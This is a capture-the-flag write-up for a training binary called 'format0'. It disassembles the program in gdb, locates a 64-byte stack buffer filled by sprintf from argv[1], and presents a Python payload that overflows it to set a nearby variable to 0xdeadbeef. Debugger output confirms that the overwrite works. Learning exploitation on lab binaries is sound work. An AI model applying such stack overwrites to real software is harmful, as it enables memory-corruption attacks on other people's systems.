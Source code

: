 

```as
(gdb) disas main
Dump of assembler code for function main:
0x0804842b <main+0>:	push   ebp
0x0804842c <main+1>:	mov    ebp,esp
0x0804842e <main+3>:	and    esp,0xfffffff0
0x08048431 <main+6>:	sub    esp,0x10
0x08048434 <main+9>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048437 <main+12>:	add    eax,0x4
0x0804843a <main+15>:	mov    eax,DWORD PTR [eax]
0x0804843c <main+17>:	mov    DWORD PTR [esp],eax
0x0804843f <main+20>:	call   0x80483f4 <vuln>
0x08048444 <main+25>:	leave  
0x08048445 <main+26>:	ret    
End of assembler dump.

(gdb) disas vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:	push   ebp
0x080483f5 <vuln+1>:	mov    ebp,esp
0x080483f7 <vuln+3>:	sub    esp,0x68
0x080483fa <vuln+6>:	mov    DWORD PTR [ebp-0xc],0x0
0x08048401 <vuln+13>:	mov    eax,DWORD PTR [ebp+0x8]
0x08048404 <vuln+16>:	mov    DWORD PTR [esp+0x4],eax
0x08048408 <vuln+20>:	lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:	mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:	call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:	mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:	cmp    eax,0xdeadbeef
0x0804841b <vuln+39>:	jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:	mov    DWORD PTR [esp],0x8048510 ; "you have hit the target correctly :)"
0x08048424 <vuln+48>:	call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:	leave  
0x0804842a <vuln+54>:	ret    
End of assembler dump.
```


```as
0x08048434 <main+9>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048437 <main+12>:	add    eax,0x4
0x0804843a <main+15>:	mov    eax,DWORD PTR [eax]
0x0804843c <main+17>:	mov    DWORD PTR [esp],eax
0x0804843f <main+20>:	call   0x80483f4 <vuln>
```
The first `main+9` to third line `main+15` is about getting the `argv[1]`. The last line is about pushing `argv[1]` onto the top of stack `<main+17>: mov DWORD PTR [esp],eax` which later it will be used by `vuln()` for its argument.

```as
0x080483fa <vuln+6>:	mov    DWORD PTR [ebp-0xc],0x0
...
0x08048413 <vuln+31>:	mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:	cmp    eax,0xdeadbeef
```
There is some variable `ebp-0xc` that is set with `0x0`, and then later it will be compared with some constant `0xdeadbeef` which we need to pass the test and it will be the end of this challenge. Here is the comparasion with the actual source code:
```c
volatile int target;
target = 0;
...
if(target == 0xdeadbeef) {
	...	
}
```

Examine `ebp-0xc`, and here is the detail, later we will use it 
```as
(gdb) x/wx $ebp-0xc
0xbffff72c:	0x00000000
```


```as
0x08048401 <vuln+13>:	mov    eax,DWORD PTR [ebp+0x8]
0x08048404 <vuln+16>:	mov    DWORD PTR [esp+0x4],eax
0x08048408 <vuln+20>:	lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:	mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:	call   0x8048300 <sprintf@plt>
```

The first `vuln+13` and the second line `vuln+16` are probably our command line argument `argv[1]`:
```as
(gdb) x/wx $ebp+0x8
0xbffff740:	0xbffff946
(gdb) x/wx 0xbffff946
0xbffff946:	0x41414141

0xbffff740 -> 0xbffff946 -> 0x41414141
```

These specific line code are where our buffer located:
```as
0x08048408 <vuln+20>:	lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:	mov    DWORD PTR [esp],eax
```
examining its detail
```as
(gdb) x/wx $ebp-0x4c
0xbffff6ec:	0x00000001
```
calculating the buffer, assuming we are not given the source code then we could identify the buffer like this: by substracting the starting address of buffer `ebp-0x4c`, and the next variable which is `ebp+0xc`
```as
(gdb) p/x $ebp-0xc - ($ebp-0x4c)
$6 = 0x40
(gdb) p/s $ebp-0xc - ($ebp-0x4c)
$7 = 64
```

Finally to verify whether it's correct 64 bytes or not, we will just assume it's true first, and later determine, so here is the script:

```py
import string
import struct

pad = ""
for i, c in enumerate(string.ascii_uppercase):
    pad += c * 4
    if (int(i) + 1) * 4 == 64:
        break

cmpp = struct.pack("I",0xdeadbeef)
payload = pad + cmpp
print(payload)
```

Test it:
```bash
$ python /tmp/a.py > /tmp/a
$ ./format0 "$(cat /tmp/a)"
you have hit the target correctly :)
```

Also in gdb we use it like:
```as
r "$(cat /tmp/a)"
```

Here is the detail:
```as
(gdb) 
you have hit the target correctly :)
esp            0xbffff6d0	0xbffff6d0
ebp            0xbffff738	0xbffff738
eip            0x8048429	0x8048429 <vuln+53>
0xbffff6d0:	0x08048510	0xbffff946	0x080481e8	0xbffff768
0xbffff6e0:	0xb7fffa54	0x00000000	0xb7fe1b28	0x41414141
0xbffff6f0:	0x42424242	0x43434343	0x44444444	0x45454545
0xbffff700:	0x46464646	0x47474747	0x48484848	0x49494949
0xbffff710:	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c	0x4d4d4d4d
0xbffff720:	0x4e4e4e4e	0x4f4f4f4f	0x50505050	0xdeadbeef
0xbffff730:	0xb7fd8300	0xb7fd7ff4	0xbffff758	0x08048444
0xbffff740:	0xbffff946	0xb7ff1040	0x0804846b	0xb7fd7ff4
0xbffff750:	0x08048460	0x00000000	0xbffff7d8	0xb7eadc76
0xbffff760:	0x00000002	0xbffff804	0xbffff810	0xb7fe1848
0x8048429 <vuln+53>:	leave  
0x804842a <vuln+54>:	ret    
```
